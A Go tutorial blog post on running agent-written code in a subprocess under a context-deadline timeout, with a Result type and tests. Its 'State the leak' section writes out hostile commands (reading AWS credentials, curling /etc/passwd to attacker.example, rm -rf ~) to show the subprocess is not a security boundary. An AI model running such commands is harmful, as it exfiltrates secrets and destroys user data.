

# Secure Sandboxing: Running Agent-Written Code Behind a Timeout

*Lesson 3 of Harness Engineering in Go — how a context deadline and `exec.CommandContext` reap a runaway snippet, why the two-shaped `Result` distinguishes a timeout from a failure, and the leak that makes a local subprocess a teaching tool, not a security boundary.*

---

This is the third pattern in the [Harness Engineering in Go](/blog/posts/harness-engineering-go-01-the-seam.html) series. Lesson 1 wrapped the model in [guardrails](/blog/posts/harness-engineering-go-02-agent-harness-guardrails.html); Lesson 2 made a multi-step run [survive a crash](/blog/posts/harness-engineering-go-03-durable-execution.html). This one confronts the moment an agent stops *talking* and starts *doing*: it writes code, and something has to run it. The instant you `exec` a string the model produced, you have handed control of your process to a stochastic author. The pattern here is the smallest honest answer to "run this, but don't let it hurt me."

## The pattern: bound the runtime, capture the output

`sandbox.RunCode` takes a code string and a timeout, runs the code in a subprocess, captures both streams, and — crucially — kills the process if it runs long. The whole surface is one function and one struct.



That branch — *finishes in time* versus *exceeds the deadline* — is the entire lesson. Everything else is bookkeeping around it.

The seam this stands in for is **Azure AI Foundry's Code Interpreter tool** — a managed, network-isolated sandbox that Foundry exposes to an agent so it can execute code as part of a run. Locally, the "sandbox" is `sh -c`. In production, this exact call site becomes a Code Interpreter invocation (or an [Azure Container Apps Dynamic Session](https://learn.microsoft.com/en-us/azure/container-apps/sessions), which gives you a real per-request Hyper-V isolated pool). The *contract* the caller sees is identical: hand over untrusted code, get back captured output and a bounded runtime. The caller never learns whether the isolation was a kernel boundary or a `context.WithTimeout`.

## The timeout is a context deadline, not a goroutine race

The naive way to time out a subprocess is to spawn a goroutine, race it against `time.After`, and try to `Kill()` the process yourself. It's fiddly and it leaks — the goroutine outlives the timeout, the kill races the natural exit. Go has a purpose-built tool for exactly this, and the sandbox uses it:

```go
func RunCode(code string, timeout time.Duration) Result {
	if timeout <= 0 {
		timeout = DefaultTimeout
	}

	ctx, cancel := context.WithTimeout(context.Background(), timeout)
	defer cancel()

	// "sh -c" is the untrusted-code seam here. In production this call site is an
	// Agent Service Code Interpreter invocation (a real isolated sandbox); the
	// contract we practise is the same — capture output, bound the runtime.
	cmd := exec.CommandContext(ctx, "sh", "-c", code)
	var stdout, stderr bytes.Buffer
	cmd.Stdout = &stdout
	cmd.Stderr = &stderr

	err := cmd.Run()
```

`exec.CommandContext` is the whole trick. When the context's deadline fires, the `os/exec` package kills the process for you — no goroutine, no manual `Kill`, no race to write. An infinite loop, a `sleep 999`, a fork bomb of patience: all reaped when the clock runs out. The `defer cancel()` releases the timer whether the code finished early or was killed, so nothing leaks either way. A non-positive timeout falls back to `DefaultTimeout` (5 seconds), so a caller can't accidentally pass `0` and get an unbounded run.

## The `Result` shape encodes "why did this stop?"

The output type carries five fields, and the two booleans matter more than they look:

```go
type Result struct {
	OK       bool   // true iff the process exited 0 and did not time out
	Stdout   string // captured standard output
	Stderr   string // captured standard error (or "timed out")
	ExitCode int    // process exit code; -1 when it never exited cleanly
	TimedOut bool   // true iff the hard timeout fired
}
```

`OK` and `TimedOut` are not redundant. There are three distinct outcomes and the caller needs to tell them apart: **success** (`OK:true`), **the code ran and failed** (`OK:false, TimedOut:false` — a compile error, a non-zero exit, a real result you should show the agent), and **the code never terminated** (`OK:false, TimedOut:true` — an operational event you handle differently, maybe by asking the agent to try something cheaper). Collapsing those into a single "error" would throw away the one distinction the sandbox exists to make.

The subtle part is *how* the function decides which outcome it saw. It does **not** parse the error text:

```go
	err := cmd.Run()

	// Distinguish "the timeout fired" from an ordinary non-zero exit: check the
	// context, not the error text.
	if ctx.Err() == context.DeadlineExceeded {
		return Result{OK: false, Stdout: stdout.String(), Stderr: "timed out", ExitCode: -1, TimedOut: true}
	}

	if err != nil {
		exitCode := -1
		var exit *exec.ExitError
		if errors.As(err, &exit) {
			exitCode = exit.ExitCode()
		}
		return Result{OK: false, Stdout: stdout.String(), Stderr: stderr.String(), ExitCode: exitCode, TimedOut: false}
	}

	return Result{OK: true, Stdout: stdout.String(), Stderr: stderr.String(), ExitCode: 0, TimedOut: false}
}
```

When a subprocess is killed by a context deadline, `cmd.Run()` returns a "signal: killed" error — which is *indistinguishable by its text* from a process that got SIGKILL for any other reason. So the code asks the authoritative source: `ctx.Err() == context.DeadlineExceeded`. The context knows whether *it* fired. That check has to come first, because a timed-out run also has a non-nil `err` and would otherwise fall into the generic-failure branch and get mislabeled as an exit-code failure. Order is load-bearing here.

The ordinary-failure branch uses `errors.As` to pull the real exit code out of an `*exec.ExitError`. `exit 7` comes back as `ExitCode:7`; anything that never produced a clean code stays at the sentinel `-1`.

## The tests prove the three outcomes

Same series rule as every lesson: one test per branch of the contract. The timeout test is the interesting one, because it asserts *promptness*, not just the flag:

```go
func TestRunCodeTimesOut(t *testing.T) {
	start := time.Now()
	got := RunCode("sleep 5", 200*time.Millisecond)
	if elapsed := time.Since(start); elapsed > 2*time.Second {
		t.Fatalf("runaway process was not killed promptly (took %s)", elapsed)
	}
	if !got.TimedOut {
		t.Fatalf("expected TimedOut, got %+v", got)
	}
	if got.OK {
		t.Fatal("a timed-out run must not be ok")
	}
}
```

A `sleep 5` given a 200ms budget must return in well under two seconds — proving the process was *actually killed*, not merely waited on. The other two tests pin the happy path (`echo hello` → `OK:true`) and the ordinary failure (`exit 7` → `ExitCode:7, TimedOut:false`). No network, no fixtures, sub-second, offline. That's the whole point of the seam: the timeout behavior is real and testable even though the isolation is a toy.

## State the leak

The package doc comment does not hedge:

> This is a TEACHING stand-in for the Azure AI Foundry Code Interpreter tool (a managed, network-isolated sandbox). A local subprocess is **not** a real security boundary — it shares the host filesystem and, absent extra sandboxing, the network. Use it to learn the shape of "run untrusted code safely"; use Code Interpreter or ACA Dynamic Sessions for anything real.

Say it flatly: **the isolation here covers timeouts, not the filesystem or the network.** The subprocess runs as your user, with your environment, on your disk. `RunCode("cat ~/.aws/credentials")` returns them. `RunCode("curl attacker.example/$(cat /etc/passwd)")` exfiltrates them. `RunCode("rm -rf ~")` does exactly what it says. The timeout stops a snippet from running *forever*; it does nothing to stop it from reading, writing, or phoning home *quickly*. Treating this as a security control would be worse than having none, because it would feel safe.

That is not a bug to patch — patching it *is* Foundry Code Interpreter or ACA Dynamic Sessions. Those give you a genuine boundary: a container or Hyper-V-isolated session with no access to your filesystem, egress controls on the network, and a lifecycle that Azure tears down after the run. Rebuilding that locally (namespaces, seccomp, an egress proxy) would be a different project entirely and would defeat the purpose of the stand-in. What the local version teaches is the *shape* — where the sandbox call sits in the harness, what its `Result` must distinguish, how the timeout is enforced — so that when you wire the managed sandbox, you already know precisely which job it is doing and which job it is not.

## What's next

Timeouts protect the harness from a runaway *action*. The next thing a real agent needs is a *memory* that outlives a single request — one that can retrieve the right past turns instead of replaying the whole transcript, and summarize when the thread grows too long to fit the context window. That's a different seam standing in for a different Azure primitive, with its own honest leak.

---

Next: [Advanced Memory: Threads, Retrieval, and Summarization](/blog/posts/harness-engineering-go-05-advanced-memory.html)
